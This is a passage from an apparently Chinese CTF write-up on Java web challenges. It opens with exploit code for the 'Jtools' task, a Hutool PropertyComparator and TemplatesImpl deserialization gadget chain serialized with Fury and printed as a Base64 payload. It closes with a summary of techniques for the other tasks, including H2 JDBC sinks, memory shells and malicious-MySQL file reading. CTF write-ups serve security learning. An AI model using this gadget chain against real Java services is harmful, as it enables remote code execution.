        // switch method called by comparator
        ReflectUtil.setFieldValue(comparator_1, "property", "outputProperties");
        // switch contents of queue
        Object[] queueArray_1 = (Object[]) getFieldValue(queue_1, "queue");
        queueArray_1[0] = template;
        queueArray_1[1] = template;

        byte[] payload = SerializeUtil.serialize(queue_1);

        Map<String, Object> userMap = MapUtil.newHashMap(16);
        userMap.put("definition", payload);
        MapProxy mapProxy = MapProxy.create(userMap);
        ExcelReader mapUser1 = mapProxy.toProxyBean(ExcelReader.class);
        ExcelReader mapUser2 = mapProxy.toProxyBean(ExcelReader.class);
        PropertyComparator comparator = new PropertyComparator("definition");
        PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        // stub data for replacement later
        queue.add(1);
        queue.add(1);
        // switch method called by comparator
        ReflectUtil.setFieldValue(comparator, "propertyName", "definition");
        // switch contents of queue
        Object[] queueArray = (Object[]) getFieldValue(queue, "queue");
        queueArray[0] = mapUser1;
        queueArray[1] = mapUser2;
        Fury fury = Fury.builder().withLanguage(Language.JAVA).requireClassRegistration(false).build();
        byte[] exp = fury.serialize(queue);
        System.out.println(Base64.getEncoder().encodeToString(exp));
        fury.deserialize(exp);

    }

    public static Object getFieldValue(final Object obj, final String fieldName) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        return field.get(obj);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
}
```

## Espresso Coffee

<https://xz.aliyun.com/news/17019>

unk yyds

# 小结

su-solon 绕过黑名单找到新的h2 jdbc的sink点。

ez\_micronaut 主要在于不出网的条件下利用h2 jdbc sink solon内存马的挖掘，挖掘内存马的过程出题人的wp中写的也非常详细。

<https://www.yuque.com/pupi1/kd6gkq/dx488t7mc375m83o?#《SU_PWN》>

su-pwn 如果没有非预期，用 CVE-2022-34169 写内存马对web手还是有一些难度的。

sujava mysql的jdbc，版本很高，不能打反序列化，但是可以利用连接恶意mysql达到文件读取的效果。而且jdbc://这种写的格式也值得学习记录。

javaGuide，EasyDB 这两个题目比较简单一个很基础的二次反序列化，一个有点类似与sql注入，但是打的是h2

Jtools hutools新的二次反序列化点的挖掘。PropertyComparator compare方法触发任意get。

Espresso Coffee 略

相关题目附件已经上传至我的github <https://github.com/C0cr/CTF-Repo>
